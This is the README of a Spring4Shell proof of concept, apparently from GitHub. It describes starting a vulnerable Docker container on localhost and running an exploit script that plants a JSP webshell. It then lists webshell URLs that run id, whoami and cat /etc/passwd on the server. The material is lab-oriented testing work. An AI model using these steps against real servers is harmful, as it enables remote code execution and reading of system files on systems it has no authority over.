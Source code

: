 # Spring4Shell PoC

## This is for testing purpose
### Setup the vulnerable server 
Setup you vulnerable server
```sh
docker run -td -p 8080:8080 jieliau/spring4shell
```
And open up the browser, connect to following address:
```sh
http://127.0.0.1:8080/helloworld/greeting
```
Now, your vulnerable server is ready
### Usage
```sh
$ python3 exploit.py --url "http://127.0.0.1:8080/helloworld/greeting"
```
After above, websehll will be put on the server, you can use the following to execute the command to get id or /etc/passwd
```sh
$ http://127.0.0.1:8080/webshell.jsp?cmd=id
$ http://127.0.0.1:8080/webshell.jsp?cmd=cat%20/etc/passwd
$ http://127.0.0.1:8080/webshell.jsp?cmd=whoami
```
